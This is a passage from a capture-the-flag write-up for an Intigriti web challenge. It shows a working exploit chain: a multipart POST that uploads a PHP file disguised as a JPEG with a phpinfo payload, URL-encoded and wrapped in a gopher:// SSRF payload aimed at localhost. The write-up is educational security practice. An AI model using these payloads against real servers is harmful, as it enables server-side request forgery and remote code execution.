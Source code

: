     - HTTP/2 uses a binary framing layer with a specific connection preface and structured frames. It does not accept plaintext CRLF-delimited request lines on the wire. Sending “GET … \r\n” bytes will not form a valid HTTP/2 stream, so the server won’t interpret it as a request, which is why that approach doesn’t work under HTTP/2.


![12.png]

Keep in mind that you should input the payload directly on the GUI field.

### Crafting POST request

With the help of AI, I built a baseline POST request to have a foundation to work from.

```http
POST /upload_shoppix_images.php HTTP/1.1 
Host: challenge-1025.intigriti.io 
Content-Type: multipart/form-data; boundary=-----boundary 
Content-Length:  

-----boundary
Content-Disposition: form-data; name="image"; filename="s1x.jpg.php" 
Content-Type: image/jpeg

-----boundary--
```

Go to Burp Repeater and start work with it.

![13.png]

Now go to cyber chef and encode it in URL format.

![14.png]

[Encoded Payload](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=UE9TVCAvdXBsb2FkX3Nob3BwaXhfaW1hZ2VzLnBocCBIVFRQLzEuMQ0KSG9zdDogY2hhbGxlbmdlLTEwMjUuaW50aWdyaXRpLmlvDQpDb250ZW50LVR5cGU6IG11bHRpcGFydC9mb3JtLWRhdGE7IGJvdW5kYXJ5PS0tLS1ib3VuZGFyeQ0KQ29udGVudC1MZW5ndGg6IDE5MA0KDQotLS0tLS1ib3VuZGFyeQ0KQ29udGVudC1EaXNwb3NpdGlvbjogZm9ybS1kYXRhOyBuYW1lPSJpbWFnZSI7IGZpbGVuYW1lPSJzMXguanBnLnBocCINCkNvbnRlbnQtVHlwZTogaW1hZ2UvanBlZw0KDQr9UE5HDQoaDQoNCklIRFL9/QgG41QEc0JJVAgICAh8CA0KDQo8P3BocCBwaHBpbmZvKCkgPz4NCi0tLS0tLWJvdW5kYXJ5LS0&ieol=CRLF&oeol=CRLF)

And finally, add it to the gopher payload and append the CRLF at the end.

```
gopher://127.1:80/_POST%20%2Fupload%5Fshoppix%5Fimages%2Ephp%20HTTP%2F1%2E1%0D%0AHost%3A%20challenge%2D1025%2Eintigriti%2Eio%0D%0AContent%2DType%3A%20multipart%2Fform%2Ddata%3B%20boundary%3D%2D%2D%2D%2Dboundary%0D%0AContent%2DLength%3A%20190%0D%0A%0D%0A%2D%2D%2D%2D%2D%2Dboundary%0D%0AContent%2DDisposition%3A%20form%2Ddata%3B%20name%3D%22image%22%3B%20filename%3D%22s1x%2Ejpg%2Ephp%22%0D%0AContent%2DType%3A%20image%2Fjpeg%0D%0A%0D%0A%C3%BDPNG%0D%0A%1A%0D%0A%0D%0AIHDR%C3%BD%C3%BD%08%06%C3%A3T%04sBIT%08%08%08%08%7C%08%0D%0A%0D%0A%3C%3Fphp%20phpinfo%28%29%20%3F%3E%0D%0A%2D%2D%2D%2D%2D%2Dboundary%2D%2D%0D%0A
```


![15.png]
